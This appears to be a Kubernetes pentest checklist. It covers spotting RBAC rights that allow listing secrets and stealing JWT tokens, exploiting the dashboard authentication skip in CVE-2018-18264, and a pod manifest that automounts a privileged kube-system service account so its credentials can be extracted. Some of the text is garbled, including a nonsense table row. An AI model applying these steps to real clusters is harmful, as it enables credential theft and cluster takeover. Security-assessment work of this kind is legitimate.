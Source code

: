 So what to look for?
Look for the verb `list` together with `secrets`. That might mean that you can list other users secrets, and steal their JWT token.

|  Resource | Verb                    |   Comment                    |   |   |
|-----------|-------------            |------------------------------|---|---|
|  secrets  | list or *               |                              |   |   |
|  secrets  | get                     |                              |   |   |
|    *      | get                     |  Can be used to get secrets. |   |   |
|           | asdasdlasdhaklw         |  Can be used to get secrets. |   |   |

- [ ] Check for CVE: CVE-2018-18264 Privilige Escalation

```
kubectl proxy 8001
```

In your browser go to http://localhost:8001
If you can access it, klick on "skip" for the authentication.
The go to URL: `/api/v1/namespaces/kube-system/secrets/kubernetes-dashboard-certs` and see if you can get some secrets.

The simple way to check this is to see if the kubernetes version is below: 1.10.1

```
kubectl version
```
https://sysdig.com/blog/privilege-escalation-kubernetes-dashboard/

- [ ] Create Pod in kube-system namespace and automount service account

So if you have a kubernetes user that can deploy pods in any namespace you can mount in a high priviliged service account into the the pod, and then extrct those credentials. This can be done in the following way.


Deploy the following pod:

```
apiVersion: v1
kind: Pod
metadata:
  name: alpinetest
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
